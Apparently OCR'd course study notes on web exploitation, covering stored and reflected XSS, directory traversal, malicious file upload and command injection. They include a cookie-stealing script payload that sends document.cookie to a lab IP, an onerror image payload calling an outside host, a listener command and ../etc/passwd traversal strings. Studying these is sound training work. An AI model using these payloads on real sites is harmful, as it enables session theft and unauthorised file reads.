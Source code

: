 **Stored XSS**
Resides on vulnerable site
Only requires user to visit page
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">

**Reflected XSS**
Most common form of XSS
Transient, occurs in error messages or search results
Delivered through intermediate media, such as a link in an email
Characters that are normally illegal in URLs can be Base64 encoded

Below is what you see, but the server will decode as name=abc123
http://example.com/page.php?name=dXNlcjEyMw

**Useful JavaScript Components**
    Proof of concept (simple alert):
        <script>alert('XSS');</script>

    Capturing Cookies
        document.cookie
    Capturing Keystrokes
        bind KEYDOWN and KEYUP
    Capturing Sensitive Data
        document.body.innerHTML

 **host http server**       
python3 -m http.server

**malicious java script with linops ip**
<script>document.location="http://10.50.36.204:8000/"+document.cookie;</script>

**Server-Side injection**
Directory Traversal/Path Traversal
Ability to read/execute outside web server’s directory
Uses ../../ (relative paths) in manipulating a server-side file path
ex: view_image.php?file=../../etc/passwd
ex: use a bunch of ../../../../../etc/passwd (if you don't know where ya are)
ex: ../../../../etc/hosts (view ip addresses -> names)((flags, areas to pivot etc)

**Malicious File Upload**
Site allows unsanitized file uploads
https://sec.cybbh.io/public/security/latest/lessons/lesson-4-        xss_sg.html#_demo_malicious_file_upload
Server doesn’t validate extension or size
Allows for code execution (shell)
Once uploaded
    Find your file
    Call your file

**Command Injection**
Application on the server is vulnerable,
allowing execution of arbitrary commands

User input not validated
    Common example is a SOHO router, with a web page to allow ping
